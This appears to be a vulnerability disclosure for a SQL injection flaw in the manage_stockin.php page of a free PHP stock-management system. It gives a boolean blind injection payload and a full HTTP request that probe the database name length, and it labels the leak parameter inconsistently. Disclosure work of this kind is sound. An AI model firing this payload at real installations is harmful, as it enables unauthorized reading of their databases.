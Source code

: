 # Ingredients Stock Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15364/ingredients-stock-management-system-phpoop-free-source-code.html

Vulnerability File: /isms/admin/stocks/manage_stockin.php

Vulnerability location /isms/admin/stocks/manage_stockin.php, iid

db_name = isms_db;length=7

[+] Payload: /isms/admin/stocks/manage_stockin.php?iid=4&id=4%27%20and%20length(database())%20=%207--+ // Leak place ---> iid

```sql
GET /isms/admin/stocks/manage_stockin.php?iid=4&id=4%27%20and%20length(database())%20=%207--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=2m880botn1u43hd2gu23ttj4ug
Connection: close
```

When length (database ()) = 7
![image](https://user-images.githubusercontent.com/54017627/179384186-31b8f1c1-f417-451c-a034-c65d1b18364d.png)

When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179384191-856b9326-8fd5-4acf-a153-fa82314904ff.png)
